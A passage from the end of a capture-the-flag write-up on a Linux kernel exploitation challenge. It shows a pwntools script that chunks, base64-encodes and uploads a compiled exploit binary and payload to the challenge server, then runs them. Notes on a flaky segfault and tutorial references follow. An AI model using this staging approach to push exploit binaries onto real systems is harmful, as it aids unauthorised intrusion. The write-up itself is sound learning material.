I then gzipped it and base64 encoded it, sent to the server, extracted everything, and ran the exploit:
#+begin_src python
#!/usr/bin/env ipython3

from pwn import *
import base64
import gzip

with open('shared/solve', 'rb') as f:
    b = base64.b64encode(gzip.compress(f.read())).decode('ascii')

print(len(b))

r = remote('2022.ductf.dev', 30020)
sleep(10)

r.sendline('cd /home/ctf')

groups = group(300, b)
for g in groups:
    r.sendline('echo %s >> solve.gz.b64' % g)

r.sendline('base64 -d ./solve.gz.b64 > solve.gz')
r.sendline('gunzip solve.gz')
r.sendline('chmod +x solve')

with open('shared/payload.txt', 'rb') as f:
    b = base64.b64encode(gzip.compress(f.read())).decode('ascii')

print(len(b))

groups = group(300, b)
for g in groups:
    r.sendline('echo %s >> payload.txt.gz.b64' % g)

r.sendline('base64 -d ./payload.txt.gz.b64 > payload.txt.gz')
r.sendline('gunzip payload.txt.gz')

r.interactive()
#+end_src

* 0x07: Final Notes

An interesting observation I had while debugging my exploit is a strange crash I was getting (in the userspace code, not in kernel code) that resulted in this log in =dmesg=:
#+begin_src
solve[78]: segfault at 40179d ip 000000000040179d sp 00007ffec1462340 error 15 in solve[401000+99000]".
#+end_src

Googling "error 15", I see it means "attempt to execute code from a mapped memory area that isn't executable". In GDB, I noted that sometimes after the =iretq=, RIP would be set to the address of =shell= in my exploit binary, but after executing that instruction it would crash with this same error message. But if I ran the exploit a few more times with no changes, it would work. I'm not sure exactly what was going on, but after running it around 30 times on the server, it finally worked.

* 0x08: References

- https://lkmidas.github.io/posts/20210205-linux-kernel-pwn-part-3/
- https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/linux-kernel-rop-ropping-your-way-to-part-2/
- https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/
